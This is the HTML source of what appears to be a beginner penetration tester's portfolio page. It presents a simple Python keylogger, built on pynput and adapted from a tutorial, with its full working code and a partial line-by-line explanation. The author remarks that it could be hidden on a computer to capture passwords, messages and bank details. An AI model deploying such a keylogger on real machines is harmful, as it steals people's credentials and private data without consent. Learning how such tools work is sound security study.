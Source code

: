  <html>
  <head>
     <link rel="stylesheet" href="index.css">
  </head>
   <body>
    <Header id="section-Expo"> 
      <img class="img_Me" src="images/8626f4a9-f60a-4198-b2f0-02b9067687d1.jpeg" width="300"/>
     <div class="Expo-MeDiv">
      <p class="Expo_Me" >Hello, I am a young inspiring pen tester that wants to make a spot in industry, every since I gotten the idea of ethical hacking i've been try to learn and gain experience of looking and exporting vulnerabilities online, this portfolio will show what experience and skills I learned over the time in the internet, from trustrd websites that teaches you how to use kali Linux for pen testimg websites and files, to my cyber security class that teches me the basics of the subjet, to on hand experience of what I learned and trying to find vulnerabilities all over in the web, I will show my skills to anyone reading this page to prevail my career. </p>
     </div>
    </Header>

<div class="Projets_section">
   <h1 class="Projets_title">---Projets---</h1>
</div>

<div class="Projets_name">
 <h2>KeyLogger</h2>
 <h2>Made and Updated by: 3/18/2025--3/21/2025</h2>
</div>

<div class="Projets_imgAndDet">
 <div class="Code_keylog">
  <img src="images/keylogger-768x403.png" width="450" height="450" />
   <pre width="450" height="300">
    <code width="450" height="300"> 
   from pynput import keyboard
     
def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
        if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')
            
if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
   
  </code>
 </pre>
</div>

 <details>
  <h3>Technical Details</h3>
  <ul style="list-style-type:square">
   <li><strong>Programming Language:</strong>Python</li>
   <li><strong>Frameworks/Libraries:</strong>Pynput</li>
   <li><strong>Key Features:</strong>
    <ul style="list-style-type:square">
     <li>Cross-platform support (Windows, macOS, Linux)</li>
     <li>Simple API for listening to keyboard events</li>
     <li>Ability to simulate keyboard input</li>
    </ul>
   </li>
  </ul>
 </details>
</div>

<div class="Projets_Expo">
 <p>Before I start, I obtained this Keylogger from a YouTube tutorial, As a beginner, I try to learn from resources that are readily available to me. That way, I can understand how things work on my own without constantly needing to seek help. So I have added 2 new modifications to impove on less confusion in the log, but too the point, this is a basic Keylogger that records keystrokes that have been pressed, this can be used of course to be hidden into a computer and log any sensitive information that was typed on said computer, like emails with passwords, private text messages, Bank info, and more. Here I will break down my simple code.</p>
</div>

<div class="code_display_A">
 <pre class="code">
  <code>
  def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
  </code>
 </pre>

<p class="code_Expo">Here is the start of the function where I set the parameter as Key, then in the next line it take any key pressed to a string so it can be printed in the text file that is existing (or made its self if theres no text file with that same name) then adds a append tool here 'a' so any keystrokes will be added im the file, and it will used as logKey.</p>

</div>
  </body>
 </html>
